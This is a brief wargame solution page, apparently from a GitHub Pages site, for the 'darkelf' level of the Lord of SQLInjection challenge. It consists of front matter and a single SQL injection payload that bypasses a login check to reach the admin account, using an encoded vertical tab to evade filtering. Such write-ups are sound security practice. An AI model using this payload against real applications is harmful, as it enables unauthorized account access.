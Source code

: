 ```yaml
---
layout: default
title: darkelf
---
```


# Lord of SQLInjection darkelf Solution

The payload will be `'||id='admin'--%0b`